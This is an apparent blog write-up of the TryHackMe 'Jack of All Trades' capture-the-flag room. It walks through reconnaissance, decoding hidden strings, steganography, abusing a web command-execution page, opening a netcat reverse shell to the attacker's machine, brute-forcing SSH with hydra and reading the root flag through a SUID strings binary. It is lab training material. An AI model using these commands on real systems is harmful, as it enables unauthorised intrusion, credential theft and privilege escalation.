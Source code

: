 ```yaml
---
title: THM Jack of All Trades
date: 2021-01-23 14:30:00 +0000
categories: [Security, TryHackMe]
tags: [thm, jack, writeup]     # TAG names should always be lowercase
---
```


Introduction
Not a lot of information inside this room. So let's use standard way of discovering.

Reconnaissance
Use nmap to analyse the deployed room
nmap -sV -O <ip> -v

Have a detailled look on the answer because there is something special inside the result.
OpenSSH is deployed on port 80
Apache is deployed on port 22

Use your browser to connect on the apache service on port 22.
At least with Firefox, you will encountered an issue to connect on port 22 because this is a restricted port and Firefox block the access.

To force the connection, you can follow this step
Open a new firefox tab and type about:config in the address bar.
Try to found the following key : network.security.ports.banned.override
If it exist, you can change the value to have port 22 on it.
If it is not existing you can create a new value inside this page, right click anywhere on the page and choose New > String
Paste the value name inside the dialog box : network.security.ports.banned.override
In the port number dialog box, choose 22.

Then retry your access to the website on port 22 and it should work.

We found a - normal - website with some text inside. Notinh to exploit at first view, continue the reconnaissance.
Check source code
We found an interresting information inside. Let's have a look after and continue reconnaissance.
Check web delovopment tools (network, console, ...)
We found another interresting stuff with an image named stego. Put away this information, we will maybe need it after.
Analyze the website with gobuster to found potential other information.
gobuster dir -u <ip> -w /usr/share/wordlists/dirb/big.txt
Nothing found on this way.

During the analysis go back to the information found inside the source code.
Go the /recovery.php path.
We found a login page with user/password.
Below, we have a very very long string (UmVtZ[...]xCg==)... Let's analyze it to found what is behind. You can use CyberChef to identify what is the hidden value.
As it is finishing by == it is probably a base64 encoding value. Let's use a "From Base64" recipe to decode the string. 
And here we are, we found interresting information with a password.

Observe /recovery.php source code page to found another encoding value (GQ2TO[...]DINQ=).
Let's identify the type now. Base64 is not working, let's try other baseXX.
Base32 provide something which seems to be hexadecimal. Let's add another transformation "From Hex".
The result is not understandable but looks like a valid entropy with a score of 4.43 (Standard EZnglish is usually somewhere between 3.5 and 5).
Let's try another transofrmation with ROT13.
Here we are, we found the information hidden inside the value. It said that the information about the login name is hidden inside the homepage. 
We also have a little hint with a link to Stegosauria's wikipedia. This should be link to the stego file we discover at the begining.

Let's start an steganograpy analysis of the stego.png file.
Download the file and start the analysis with steghide
steghide extract -sf stego.jpg
Steghide is requested a passphrase. Let's use the one we found inside the first encoding value. It works and extracted data are available inside creds.txt.
Let's open the file
cat creds.txt
Bad news! No login information but the message says that we are on the right path. Let's try another image of the home page.

There is two other image in the homepage (header.jpg & jackinthebox.jpg). Analyze both with steghide again.
steghide extract -sf jackinthebox.jpg
Enter previous passphrase
No result.

steghide extract -sf header.jpg
Enter previous passphrase
Here we have a result. Data are extracted to cms.creds. Open the file.
cat cms.creds

Let's use this information on the recovery.php page.

Login/password works well and redirect us to a secret path (nn[..]OV/index.php)
Login page show the following text:
GET me a 'cmd' and I'll run it for you Future-Jack
What does it means ?
My first understanding is that we can use this page with a GET parameter to receive the answer. Let's try something simple to start:
curl GET <ip>:22/nn[..]OV/index.php?cmd=whoami
And we have the result of whoami command inside the Response page..

Let's try a path traversal attack
curl GET <ip>:22/nn[..]OV/index.php?cmd=cat ../../../../../../../etc/password
We have the result but nothing to exploit except that a user named jackhave access to the machine (obvious because we found the signature Jack inside the website)

Let's try to open a reverse shell to have a better access on the webserver.
On the attack machine, start a listener with
nc -nvlp 1234
Then execute the following web request to execute the reverse shell
curl GET <target_ip>:22/nn[..]OV/index.php?cmd=nc -e /bin/sh <attack_ip> <port_attack_ip>
Here we have our reverse shell.
Let's try to found a way to change user to jack.

Navigate inside the machine and then we found an interresting file named 'jack's_password_list' inside /home which is read access to everybody. 
Let's use this list to bruteforce the ssh access of jack user with hydra.
hydra -l jack -P jacks_password_list.txt -s 80 <ip> ssh
Remember that SSH port is on port 80 (instead of 22 usualy).

And hydra found the good password. Let's open the SSH connection with jack
ssh jack@<ip>
Enter password found by hydra

and we found an image file inside /home/jack. Try to open it to found a flag inside the recipe :)

Privilege Escalation
Before using an enumeration script like LinEnum, I always check some basic privilege escalation like the follow:
sudo -l
Nothing to see here.

Search for SUID files
find / -perm /4000 2>/dev/null
perm 4000 allow us to search file with SUID bit set.
Here we have some interesting answer. Let's compare the output of the command with the list available at https://gtfobins.github.io/
We found that strings executable could be used to read files as root when SUID bit is set on the binary.
so let's try with a basic file /root/root.txt (usualy the flag is here).
strings /root/root.txt
Bingo, we found the root flag.
